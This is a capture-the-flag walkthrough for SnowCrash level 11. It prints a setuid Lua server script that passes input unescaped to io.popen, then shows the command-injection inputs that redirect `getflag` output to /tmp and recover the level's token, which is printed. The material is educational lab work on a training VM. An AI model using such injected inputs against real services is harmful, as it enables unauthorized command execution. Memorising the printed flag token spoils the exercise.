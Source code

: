 # SnowCrash Level11 Guide
This guide will walk you through the process of finding the password for the `flag11` user.

## Procedure:

1. **Examine your environment**
   
`id` : Shows user and group identities that you have. 
```bash
uid=2011(level11) gid=2011(level11) groups=2011(level11),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level11
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
We have a lua script.

2. **Analyse level11.lua**

We don't have lua installed on the VM, so we can't execute it directly.
We can read the content of the file.
```bash
cat level11.lua
```
Returns
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
This script has two interesting elements:
- It listens on port 5151.
- It hashes the input and compares it to a hardcoded hash.

3. **Connect to the server**

We can connect to the server using `nc`.
```bash
nc 127.0.0.1 5151
```
Returns
```bash
Password:
```
We try to input the hardcoded hash found in the lua script.
```bash
Password: f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
```
Returns
```bash
Erf nope..
```
The hardcoded hash is not the password.

4. **Exploit the script**

If we look at the hash function, we see that is uses io.popen to execute commands.
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
`pass` is the input we provide.
`sha1sum` is a command that calculates the SHA1 hash of the input.
`io.popen` execute `echo` to provide the input to `sha1sum`.
So, like in previous levels, we can use this to execute commands.

We provide `getflag` command as input.
```bash
nc 127.0.0.1 5151
Password: `getflag`
```
Returns
```bash
Erf nope..
```
If we look at the lua script, we see this `print`.
```lua
print("trying " .. l)
```
But we don't see this print. So we can assume that the command is executed but the output is not displayed.

We can try to redirect the output to a file.
```bash
nc 127.0.0.1 5151
Password: `getflag > /tmp/flag`
```
Returns
```bash
Erf nope..
```
We can check the content of the file.
```bash
cat /tmp/flag
```
Returns
```bash
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s   
```

Congratulations! We have succeeded in obtaining the token!
We now access level 12.
```bash
su level12
```
